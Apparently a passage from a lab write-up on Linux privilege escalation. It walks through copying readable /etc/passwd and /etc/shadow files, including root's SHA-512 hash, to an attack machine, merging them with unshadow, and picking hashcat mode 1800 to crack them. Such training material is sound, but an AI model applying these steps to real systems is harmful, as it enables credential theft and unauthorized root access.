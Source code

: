 ``` bash
statd:*:17299:0:99999:7:::
TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:18431:0:99999:7:::
```
The `x` in the second column in `/etc/passwd` show that the use has a password set in `/etc/shadow`.  
Looking in `/etc/shadow` we can se that two users, root and TCM, got an hash in the second column. This means they have passwords. 
The symbol `*` in the shadow field means no password can be used to access the account. This usually occurs in daemon accounts that an ordinary user can't access, such as root, bin, daemon, etc.

Now copy the content and place it into two files on your attack machine. And then remove all lines for users without password so you get this
``` bash
$ passwd
root:x:0:0:root:/root:/bin/bash
TCM:x:1000:1000:user,,,:/home/user:/bin/bash
$ cat shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:18431:0:99999:7:::
```
Then it's time to unshadow the file using the tool `unshadow`. It takes two filenames as arguments, the passwd and shadow files  
``` bash
$ unshadow passwd shadow 
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:0:0:root:/root:/bin/bash
TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:1000:1000:user,,,:/home/user:/bin/bash
```
This will print out a joint file with the hash inside the passwd file. Save it to a new file.

Now we need to find out the type of the hash so that we can run `hashcat` on googling "hashcat hash modes" will get you to the hashcat page with a table with all supported hashes that hashcat can crack. Search the page for "$6$" to get the correct hash mode.

It will show you this line
| Hash-Mode | Hash-Name | Example |
| - | - | - |
|1800 | sha512crypt, SHA512 (Unix) 2 | $6$52450745$k5ka2p8bFuSmoVT1tzOyyuaREkkKBcCNqoDKzYiJL9RaE8yMnPgh2XzzF0NDrUhgrcLwg78xs1w5pJiypEdFX/ |
|  |  |  |

Here comes a shortend output from hashat help
``` bash
$ hashcat --help
hashcat (v6.2.6) starting in help mode

Usage: hashcat [options]... hash|hashfile|hccapxfile [dictionary|mask|directory]...

- [ Options ] -

 Options Short / Long           | Type | Description                                          | Example
================================+======+======================================================+=======================
 -m, --hash-type                | Num  | Hash-type, references below (otherwise autodetect)   | -m 1000
 -a, --attack-mode              | Num  | Attack-mode, see references below                    | -a 3
 -V, --version                  |      | Print version                                        |
 -O, --optimized-kernel-enable  |      | Enable optimized kernels (limits password length)    |
```